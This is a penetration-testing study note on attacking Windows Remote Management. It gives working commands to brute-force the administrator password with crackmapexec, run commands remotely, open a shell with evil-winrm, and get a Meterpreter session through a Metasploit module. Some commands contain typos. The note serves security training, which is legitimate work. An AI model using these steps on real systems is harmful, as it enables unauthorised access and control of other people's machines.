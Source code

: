 ```yaml
---
description: 5985, 5986
---
```


# 4 - Exploiting WinRM

## **Exploiting WinRM**

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways:
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called **“crackmapexec”** to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script called **“evil-winrm”** to obtain a command shell session on the target system.

### Practical Demonstration

`nmap -sV -p 5985 $ip` - scan.

`crackmapexe winrm $ip -u administrator -p /usr/share/metasploit-frameworl/wordlists/unix_password.txt` - Perform a brute force attack against WinRM.

We can now use \[crackmapexec] to execute arbirtary code on the victim system.

`crackmapexec winrm $ip -u administrator -p <password> -x "whoami"` - run a command with legitimate credentials. other cmds like "systeminfo".

We can use the \[evil-winrm.rb] script to gain a cmd shell.

`evil-winrm.rb -u administrator -p 'tinkerbell' -i $ip` - Obtain a shell with legitimate credentials.

We can obtain a Meterpreter Session using Metasploit

```
# 
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS $ip
set LHOST and LPORT
set FORCE_VBS true
set USERNAME adminsitrator
set PASSWORD tinkerbell
exploit
# we get a meterpreter session
getuid
sysinfo
```



